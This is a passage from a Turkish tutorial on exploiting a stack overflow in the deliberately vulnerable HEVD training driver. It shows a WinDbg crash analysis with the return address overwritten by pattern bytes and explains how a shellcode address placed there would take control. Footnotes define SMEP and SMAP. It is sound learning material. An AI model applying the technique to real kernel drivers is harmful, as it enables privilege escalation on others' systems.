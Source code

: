 ```
1: kd> !analyze -v
*******************************************************************************
*                                                                             *
*                        Bugcheck Analysis                                    *
*                                                                             *
*******************************************************************************

SYSTEM_SERVICE_EXCEPTION (3b)
An exception happened while executing a system service routine.
Arguments:
Arg1: 00000000c0000005, Exception code that caused the bugcheck
Arg2: fffff8800551b708, Address of the instruction which caused the bugcheck
Arg3: fffff880057a0dc0, Address of the context record for the exception that caused the bugcheck
Arg4: 0000000000000000, zero.

Debugging Details:
------------------

EXCEPTION_CODE: (NTSTATUS) 0xc0000005 - <Unable to get error code text>

FAULTING_IP: HEVD!TriggerStackOverflow+c8 [stackoverflow.c @ 101]
fffff880`0551b708 c3              ret

CONTEXT:  fffff880057a0dc0 -- (.cxr 0xfffff880057a0dc0)
rax=0000000000000000 rbx=4444444444444444 rcx=fffff880057a0fa0
rdx=0000077ffa88f060 rsi=0000000000000001 rdi=4242424242424242
rip=fffff8800551b708 rsp=fffff880057a17a8 rbp=fffffa8006617e80
 r8=0000000000000000  r9=0000000000000000 r10=4141414141414141
r11=fffff880057a17a0 r12=fffffa80041d3410 r13=0000000000000000
r14=0000000000000818 r15=fffffa80055b7801
iopl=0         nv up ei pl zr na po nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
HEVD!TriggerStackOverflow+0xc8:
fffff880`0551b708 c3              ret
Resetting default scope

LAST_CONTROL_TRANSFER:  from 4343434343434343 to fffff8800551b708

STACK_TEXT:  
fffff880`057a17a8 43434343`43434343 : 44444444`44444444 00000000`00000001 fffff880`057a17d8 00000000`00000018 : HEVD!TriggerStackOverflow+0xc8 [stackoverflow.c @ 101] 
fffff880`057a17b0 44444444`44444444 : 00000000`00000001 fffff880`057a17d8 00000000`00000018 fffff8a0`08a05150 : 0x43434343`43434343
fffff880`057a17b8 00000000`00000001 : fffff880`057a17d8 00000000`00000018 fffff8a0`08a05150 fffff880`0551c2a5 : 0x44444444`44444444
fffff880`057a17c0 fffff880`057a17d8 : 00000000`00000018 fffff8a0`08a05150 fffff880`0551c2a5 fffff880`0551cf60 : 0x1
```

Buradan `LAST_CONTROL_TRANSFER:  from 4343434343434343 to fffff8800551b708` kısmına bakarsanız, gönderiğimiz veriye yazdığımız 'C' harfleri, bizim kontrolu ele alabileceğimiz yer olarak gözüküyor ('C' = 0x43). Yani eğer orada `0x4343434343434343` değil de, içerisinde bizim çakallığı yapacak "*shellcode*"umuzun adresi olursa, kontrol bize geçer demektir. Peki tek denemede nasıl buldun burayı derseniz elbette ki tek denemede bulmadım, önceki yazılarda bahsettiğim gibi bir desen oluşturup veri olarak onu gönderdim, bu sayede kritik uzaklığın yerini belirledim. Bunu yapmasanız bile fonksiyonlarda kullanılan yığın boyutunu öğrenip, geri dönüş adresinin yazılacağı uzaklık değerini öğrenebilirsiniz, bu da bir seçenek. 


[^1]: "*Exploit*" kelimesi için Türkçe ne kullanabiliriz? Şahsen Sömürgeç kelimesini öneriyorum, başka fikri olan?
[^2]: **SMEP** (Supervisor Mode Execution Prevention) - Çekirdek modundaki bir kodun, kullanıcı modundaki bir alanda kod çalıştırmasını engelleyen güvenlik mekanizması.
[^3]: **SMAP** (Supervisor Mode Access Prevention) - Çekirdek modundaki bir kodun, kullanıcı modundaki bir alandaki veriye direkt olarak erişimi engelleyen güvenlik mekanizması.
[^4]: "*Shellcode*" kelimesi için Türkçe ne kullanabiliriz? Ağırlıklı olarak "Kabuk Kod" kelimesinin kullanıldığını sanıyorum fakat bana çok düz bir çeviri gibi geliyor.
[^5]: **Parametre**, fonksiyonun imzasında bulunan elemanlardan bahsedilirken kullanılır, **Argüman** ise bu fonksiyon çağırılırken parametrelere verilen değerlerden bahsedilirken kullanılır.
